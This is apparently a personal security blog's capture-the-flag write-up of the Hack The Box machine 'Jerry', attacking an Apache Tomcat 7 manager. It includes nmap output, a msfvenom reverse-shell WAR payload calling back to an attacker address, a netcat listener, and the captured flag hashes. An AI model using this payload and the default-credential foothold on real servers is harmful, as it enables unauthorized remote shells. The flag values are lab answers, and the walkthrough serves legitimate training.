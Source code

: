 [**slyone999’s Security Blog**] (https://slyone999.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)

* TOC
{:toc}

# Info#
Machine Name - Jerry
IP Address - 10.10.10.95

# Recon

## NMap

```
nmap -Pn -p 1-65535 -T4 -A -v 10.10.10.95

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 15:46 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
Initiating NSE at 15:46
Completed NSE at 15:46, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 15:46
Completed Parallel DNS resolution of 1 host. at 15:46, 0.02s elapsed
Initiating Connect Scan at 15:46
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Connect Scan Timing: About 18.70% done; ETC: 15:49 (0:02:15 remaining)
Connect Scan Timing: About 36.98% done; ETC: 15:49 (0:01:59 remaining)
Connect Scan Timing: About 58.89% done; ETC: 15:49 (0:01:10 remaining)
Connect Scan Timing: About 76.93% done; ETC: 15:49 (0:00:39 remaining)
Completed Connect Scan at 15:49, 156.35s elapsed (65535 total ports)
Initiating Service scan at 15:49
Scanning 1 service on 10.10.10.95
Completed Service scan at 15:49, 6.05s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.95.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.98s elapsed
Initiating NSE at 15:49
Completed NSE at 15:49, 0.17s elapsed
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Nmap scan report for 10.10.10.95
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

NSE: Script Post-scanning.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.04 seconds


Port 8080 apache tomcat 7.0.88

```

Apache Tomcat is listerning on 8080.

Use Dirbuster to search for filepaths

Two interesting returns are manager and host-manager

Try accessing http://10.10.10.95/manager and auth is required.
admin / admin does not work, but pressing cancel returns a page stating 

```

For example, to add the admin-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above. 

```
Authenticating to manager gives you the admin panel.
In the panel there appears to be  way to upload war files.

The URL https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/ describes a way to to create a msfvenom war file.



msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.38 LPORT=1234 -f war > shell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes

kali@kali:~/Documents/HTB/jerry$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.38] from jerry [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type *.txt
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>


